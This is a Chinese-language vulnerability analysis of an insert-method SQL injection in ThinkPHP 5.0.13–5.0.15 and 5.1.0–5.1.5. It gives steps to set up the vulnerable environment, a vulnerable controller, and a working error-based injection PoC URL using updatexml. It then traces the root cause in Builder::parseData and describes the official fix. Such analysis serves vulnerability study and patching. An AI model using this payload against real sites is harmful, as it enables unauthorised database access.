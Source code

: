 5.0.13 \<= Thinkphp \<= 5.0.15 & 5.1.0 \<= Thinkphp \<= 5.1.5
=============================================================

一、漏洞简介
------------

本篇文章，将分析 **ThinkPHP** 中存在的 **SQL注入** 漏洞（ **insert**
方法注入）。本次漏洞存在于 **Builder** 类的 **parseData**
方法中。由于程序没有对数据进行很好的过滤，将数据拼接进 **SQL**
语句，导致 **SQL注入漏洞** 的产生。

二、漏洞影响
------------

**5.0.13\<=ThinkPHP\<=5.0.15** 、 **5.1.0\<=ThinkPHP\<=5.1.5** 。

三、复现过程
------------

通过以下命令获取测试环境代码：

    composer create-project --prefer-dist topthink/think=5.0.15 tpdemo

将 **composer.json** 文件的 **require** 字段设置成如下：

    "require": {
        "php": ">=5.4.0",
        "topthink/framework": "5.0.15"
    }

然后执行 `composer update` ，并将
**application/index/controller/Index.php** 文件代码设置如下：

    <?php
    namespace app\index\controller;

    class Index
    {
        public function index()
        {
            $username = request()->get('username/a');
            db('users')->insert(['username' => $username]);
            return 'Update success';
        }
    }

在 **application/database.php** 文件中配置数据库相关信息，并开启
**application/config.php** 中的 **app\_debug** 和 **app\_trace**
。创建数据库信息如下：

    create database tpdemo;
    use tpdemo;
    create table users(
        id int primary key auto_increment,
        username varchar(50) not null
    );

### poc

    http://0-sec.org/index/index/index?username[0]=inc&username[1]=updatexml(1,concat(0x7,user(),0x7e),1)&username[2]=1

访问链接，即可触发 **SQL注入漏洞** 。（没开启 **app\_debug** 是无法看到
**SQL** 报错信息的）

![1.png](./resource/5.1.0<=Thinkphp<=5.1.5sql注入漏洞/media/rId25.png)

### 漏洞分析

![2.png](./resource/5.1.0<=Thinkphp<=5.1.5sql注入漏洞/media/rId27.png)

首先在官方发布的 **5.0.16**
版本更新说明中，发现其中提到该版本包含了一个安全更新，我们可以查阅其
**commit** 记录，发现其修改的 **Builder.php** 文件代码比较可疑。

![3.png](./resource/5.1.0<=Thinkphp<=5.1.5sql注入漏洞/media/rId28.png)

接着我们直接跟着上面的攻击 **payload** 来看看漏洞原理。首先，
**payload** 数据经过 **ThinkPHP** 内置方法的过滤后（不影响我们的
**payload** ），直接进入了 **\$this-\>builder** 的 **insert**
方法，这里的 **\$this-\>builder** 为 **\\think\\db\\builder\\Mysql**
类，代码如下：

![4.png](./resource/5.1.0<=Thinkphp<=5.1.5sql注入漏洞/media/rId29.png)

而 **Mysql** 类继承于 **Builder** 类，即上面的
**\$this-\>builder-\>insert()** 最终调用的是 **Builder** 类的 **insert**
方法。在 **insert** 方法中，我们看到其调用 **parseData**
方法来分析并处理数据，而 **parseData** 方法直接将来自用户的数据
**\$val** 进行了拼接返回。我们的恶意数据存储在 **\$val\[1\]**
中，虽经过了 **parseKey**
方法处理，当丝毫不受影响，因为该方法只是用来解析处理数据的，并不是清洗数据。

![5.png](./resource/5.1.0<=Thinkphp<=5.1.5sql注入漏洞/media/rId30.png)

上面，我们看到直接将用户数据进行拼接。然后再回到 **Builder** 类的
**insert** 方法，直接通过替换字符串的方式，将 **\$data** 填充到 **SQL**
语句中，进而执行，造成 **SQL注入漏洞** 。

![6.png](./resource/5.1.0<=Thinkphp<=5.1.5sql注入漏洞/media/rId31.png)

至此，我们已将整个漏洞分析完了。实际上，上面的 **switch**
结构中，3种情况返回的数据都有可能造成 **SQL** 注入漏洞，但是在观察
**ThinkPHP** 官方的修复代码中，发现其只对 **inc** 和 **dec**
进行了修复，而对于 **exp** 的情况并未处理，这是为什么呢？

实际上， **exp** 的情况早在传入 **insert** 方法前就被 **ThinkPHP**
内置过滤方法给处理了，如果数据中存在 **exp** ，则会被替换成 **exp空格**
，这也是为什么 **ThinkPHP** 官方没有对 **exp**
的情况进行处理的原因了。具体内置过滤方法的代码如下：

![7.png](./resource/5.1.0<=Thinkphp<=5.1.5sql注入漏洞/media/rId32.png)

### 漏洞修复

![8.png](./resource/5.1.0<=Thinkphp<=5.1.5sql注入漏洞/media/rId34.png)

### 攻击总结

最后，再通过一张攻击流程图来回顾整个攻击过程。

![9.png](./resource/5.1.0<=Thinkphp<=5.1.5sql注入漏洞/media/rId36.png)

参考链接
--------

> https://github.com/Mochazz/ThinkPHP-Vuln
